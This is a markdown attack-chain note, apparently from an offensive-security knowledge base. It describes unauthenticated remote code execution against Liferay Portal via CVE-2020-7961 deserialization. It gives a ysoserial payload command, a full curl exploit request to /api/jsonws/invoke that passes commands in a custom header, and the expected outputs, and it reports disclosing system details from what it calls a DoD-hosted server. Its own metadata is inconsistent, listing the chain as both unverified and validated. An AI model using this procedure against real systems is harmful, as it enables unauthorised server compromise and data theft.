

---
tags:
  - rce
  - deserialization
  - liferay
  - java
  - windows
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
verified: false
platforms:
  - Web
  - Windows
submitted: true
complexity: medium
created_at: '2023-10-01T12:00:00Z'
procedures:
  - '[[procedures/Exploit-Liferay-Deserialization-RCE]]'
step_count: 1
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Windows Command Shell]]'
updated_at: '2025-12-14T17:23:54.401Z'
description: >-
  Exploits CVE-2020-7961 in Liferay Portal to achieve unauthenticated remote
  code execution through unsafe Java object deserialization, allowing arbitrary
  command execution on the server.
skill_level: intermediate
impact_level: high
id: 95d7c06c-60c3-47b0-8826-0737b6b661c1
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Windows Command Shell]]'
---
# Unauthenticated RCE in Liferay Portal via Deserialization Gadget Chain

Multi-stage attack chain demonstrating exploitation of CVE-2020-7961 for unauthenticated remote code execution in Liferay Portal, targeting the /api/jsonws/invoke endpoint through unsafe deserialization of user-controlled input.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/ysoserial]] (for generating deserialization payloads)
- curl (for sending HTTP requests)

### Target Environment

- Liferay Portal version vulnerable to CVE-2020-7961 (pre-7.3.3 or similar)
- Web platform with /api/jsonws/invoke endpoint exposed
- Windows Server (for cmd.exe execution)

### Initial Access Requirements

- Network access to the Liferay Portal instance (e.g., over HTTPS)
- No credentials required (unauthenticated)
- Knowledge of the target URL

## Detailed Attack Procedures

### Step 1: Exploit Deserialization for RCE
procedure: [[procedures/Exploit-Liferay-Deserialization-RCE]]

**Objective**: Send a crafted POST request to trigger unsafe deserialization, leading to arbitrary command execution on the server and retrieval of system information.

**Instructions**: Generate a deserialization payload using ysoserial with an Apache Commons Collections gadget chain to execute commands via ProcessBuilder. Include the serialized payload in the defaultData parameter of the POST request to /api/jsonws/invoke. Set the Referer header to mimic a legitimate API call and use a custom header (e.g., cmd2) to pass the command to execute.

First, generate the payload with [[commands/ysoserial-generate-payload]] (assuming ysoserial setup):

```bash
java -jar ysoserial.jar CommonsCollections6 "java.lang.ProcessBuilder['cmd'].start()" > payload.ser
```

Then, encode the payload and send the request using [[commands/curl-liferay-exploit]]:

```bash
curl -X POST 'https://target.com/api/jsonws/invoke' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'Referer: https://target.com/api/jsonws?contextName=&signature=/expandocolumn/add-column-4-tableId-name-type-defaultData' \
  -H 'cmd2: systeminfo' \
  -d 'p_auth=\u0000&defaultData=<BASE64_ENCODED_SERIALIZED_PAYLOAD>'
```

Replace <BASE64_ENCODED_SERIALIZED_PAYLOAD> with the base64-encoded contents of payload.ser, customized to read the cmd2 header and execute via ProcessBuilder (e.g., 'cmd.exe /c' + header value).

**Expected Output**: HTTP response containing the output of the executed command, such as systeminfo details including OS version, hardware specs, and hotfixes.

**Success Indicators**:
- HTTP response includes server command output (e.g., 'Host Name', 'OS Name: Microsoft Windows Server 2019')
- No authentication errors; response status 200
- Captured output reveals sensitive system information

## Attack Chain Summary

### Key Achievements

1. Achieved unauthenticated access to the Liferay Portal endpoint
2. Triggered remote code execution via deserialization gadget chain
3. Disclosed detailed system information from a Windows Server 2019 DoD-hosted instance

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[Windows Command Shell]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]

---
*Last updated: 2023-10-01T12:00:00Z*
